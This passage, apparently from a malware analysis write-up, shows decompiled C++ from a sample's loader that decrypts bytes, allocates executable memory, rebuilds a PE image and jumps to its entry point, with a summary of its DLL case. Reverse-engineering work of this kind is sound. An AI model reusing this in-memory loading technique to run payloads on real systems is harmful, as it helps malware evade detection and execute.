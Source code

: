 ```cpp
        v12 = *localBuffer;
        entryPoint = *((_DWORD *)NtOptionalHeader + 4);
        return ((int (__cdecl *)(char *, int, _DWORD))&v12[entryPoint])(v12, 1, 0);// exec entry point
      }
    }
  }
  return v13;
}
```
In brief, the function reconstructs the PE (from the decrypted bytes) and executes it. So this is loading the bytes.

**Code 17** can now be rewriten more clearly as:
#### Code 20 - Code 17 rewritten
```cpp
 if ( checkValidPe32AndUpdateArgs(decryptedBytes, 0, &v16, 0) )
{
  dwSize = *((_DWORD *)v16 + 14);
  lpAddress = (LPVOID)VirtualAlloc2(0, dwSize, 4096, 64);
  if ( lpAddress )
  {
    currentProcessImageBase1 = (int)CurrentProcessImageBase;
    *localBuffer = lpAddress;
    dword_40C2B8 = (int (__cdecl *)(_DWORD, _DWORD, _DWORD))((char *)lpAddress + *((_DWORD *)v16 + 4));
    UpdateDllBase(currentPleb, CurrentProcessImageBase, lpAddress);
    peReconstructedAndRanSuccessfully = ConstructPE_AndExecute(localBuffer);
    HeapFreeFn((void **)&decryptedBytes);
    HeapFreeFn((void **)&localBuffer);
  }
```

### Summary of what happens in case the current process is a DLL:
```cpp
if ( (NtCharacteristics & 0x2000) != 0 )
{ // If this process is a DLL
  localBuffer = (char **)HeapAllocFn(28u);
  if ( localBuffer )
  {
    localBuffer[2] = (char *)GetProcessAddressVA;
    localBuffer[3] = (char *)LoadLibraryA_VA;
    localBuffer[5] = VirtualAlloc2;
    localBuffer[6] = (char *)VirtualFree;
    localBuffer[4] = VirtualProtect;
    localBuffer[1] = decryptedBytes;
    if ( checkValidPe32AndUpdateArgs(decryptedBytes, 0, &v16, 0) )
    {
      dwSize = *((_DWORD *)v16 + 14);
      lpAddress = (LPVOID)((int (__cdecl *)(_DWORD, SIZE_T, int, int))VirtualAlloc2)(
                            0,
                            dwSize,
                            4096,
                            64);
      if ( lpAddress )
      {
        currentProcessImageBase1 = (int)CurrentProcessImageBase;
        *localBuffer = (char *)lpAddress;
        dword_40C2B8 = (int (__cdecl *)(_DWORD, _DWORD, _DWORD))((char *)lpAddress + *((_DWORD *)v16 + 4));
        UpdateDllBase((char *)currentPleb, (int)CurrentProcessImageBase, (int)lpAddress);
        peReconstructedAndRanSuccessfully = ConstructPE_AndExecute(localBuffer);
```